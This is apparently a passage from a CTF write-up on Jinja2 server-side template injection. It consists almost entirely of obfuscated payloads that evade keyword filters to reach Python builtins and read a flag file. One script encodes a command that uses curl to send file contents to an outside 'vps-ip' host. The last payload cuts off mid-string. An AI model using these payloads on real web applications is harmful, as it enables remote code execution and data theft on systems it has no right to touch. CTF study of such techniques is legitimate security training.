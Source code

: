```
{% set ccccccc=(dict(eeeeeee=a)|join|count)%} 
{% set cccccccc=(dict(eeeeeeee=a)|join|count)%} 
{% set ccccccccc=(dict(eeeeeeeee=a)|join|count)%}
{% set cccccccccc=(dict(eeeeeeeeee=a)|join|count)%}

{% set twoandfour=(cc~cccc)|int%}
{% set fourandseven=(cccc~ccccccc)|int%} 

{% set po=dict(po=b,p=b)|join%}
{% set a=(()|select|string|list)|attr(po)(twoandfour)%}
{% set re=dict(reque=b,st=b)|join%}
{% set in=(a~a~dict(init=a)|join~a~a)|join()%}
{% set gl=(a~a~dict(globals=q)|join~a~a)|join()%}
{% set ge=(a~a~dict(getitem=a)|join~a~a)%}
{% set bu=(a~a~dict(builtins=a)|join~a~a)|join()%}
{% set x=(q|attr(in)|attr(gl)|attr(ge))(bu)%}
{% set chr=x.chr%}
{% set f=chr(fourandseven)~(dict(flag=a)|join)%}
{% print(x.open(f).read())%}
```

#### payload3：index构造数字

```
?name=
{% set o=(dict(o=z)|join) %}
{% set n=dict(n=z)|join %}
{% set ershisi=(()|select|string|list).index(o)*(()|select|string|list).index(n) %}
{% set liushisi=(()|select|string|list).index(o)*(()|select|string|list).index(o) %}
{% set xiegang=(config|string|list).pop(-liushisi) %}
{% set gang=(()|select|string|list).pop(ershisi) %}
{% set globals=(gang,gang,(dict(globals=z)|join),gang,gang)|join %}
{% set builtins=(gang,gang,(dict(builtins=z)|join),gang,gang)|join %}
{% set gangfulaige=(xiegang,dict(flag=z)|join)|join %}
{% print (lipsum|attr(globals)).get(builtins).open(gangfulaige).read() %}
```

#### payload4：反弹shell

```
import requests
cmd='__import__("os").popen("curl http://vps-ip:9023?p=`cat /flag`").read()'
def fun1(s):
	t=[]
	for i in range(len(s)):
		t.append(ord(s[i]))
	k=''
	t=list(set(t))
	for i in t:
		k+='{% set '+'e'*(t.index(i)+1)+'=dict('+'e'*i+'=a)|join|count%}\n'
	return k
def fun2(s):
	t=[]
	for i in range(len(s)):
		t.append(ord(s[i]))
	t=list(set(t))
	k=''
	for i in range(len(s)):
		if i<len(s)-1:
			k+='chr('+'e'*(t.index(ord(s[i]))+1)+')%2b'
		else:
			k+='chr('+'e'*(t.index(ord(s[i]))+1)+')'
	return k
url ='http://fc5ded74-98ba-4d98-a6f9-47ab2616ba41.challenge.ctf.show/?name='+fun1(cmd)+'''
{% set coun=dict(eeeeeeeeeeeeeeeeeeeeeeee=a)|join|count%}
```